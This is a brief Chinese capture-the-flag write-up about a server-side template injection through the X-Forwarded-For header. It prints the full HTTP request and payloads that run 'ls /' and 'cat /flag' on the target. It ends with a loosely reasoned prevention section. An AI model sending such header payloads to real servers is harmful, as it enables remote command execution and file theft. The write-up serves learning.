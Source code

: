 怎么也逃不出~burp suite的世界~

点来点去没什么头绪，php文件都是摆在明面上的，把页面源代码几个看不懂的都翻译了翻译，发现一个是适配低版本IE浏览器一个是前端实现浮动字效果……心寒……

burpsuite抓包，wp说`IP`->`X-Forwarded-For`（乍一听怪扯的……不过在读过X-Forwarded-For文档里面反复提及的警告后就理解了一点了。）。
所以浅学一下<a href=https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For>X-Forwarded-For</a>。

接下来就是添加HTTP请求头

```HTTP
GET /flag.php HTTP/1.1
Host: node4.buuoj.cn:29729
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Forwarded-For:1//是的我添；
Connection: close
```
forward之后界面从`Your IP Is: 10.xx`变成了`Your IP: Is 1`。
injec成功！！
```HTTP
X-Forwarded-For: {{system('ls /')}}
```
进而查找到了**flag**所在位置，接着
```HTTP
X-Forwarded-For: {{system('cat /flag')}}
```

GOT IT！

---
一些番外：
```txt
`X-Forwarded-For` 是一个HTTP 请求头字段。在正常情况下，它用于标识客户端的原始 IP 地址，尤其在经过代理（如负载均衡器、反向代理等）的情况下。
`X-Forwarded-For: {{system('ls /')}}` 是一个恶意构造的输入，试图通过伪造的 `X-Forwarded-For` 头字段执行系统命令 `ls /` 来获取服务器上根目录的文件列表。然而，这是一种违规和危险的行为，可能会导致系统安全风险和非法访问。
预防：
1.对于HTTP请求头字段，在正常情况下浏览器会发送真实的客户端IP地址，而不是接受用户输入的X-Forwarded-For值。这样可以避免恶意用户伪造IP地址来执行攻击。
2.大多数Web服务器也会验证和过滤请求头字段，确保其中的数据是合法和安全的。
此外，系统管理员也应该采取必要的安全措施来保护服务器免受攻击。这包括配置正确的防火墙规则、定期更新和升级软件以修复安全漏洞，并按照最佳实践设置服务器和应用程序。
```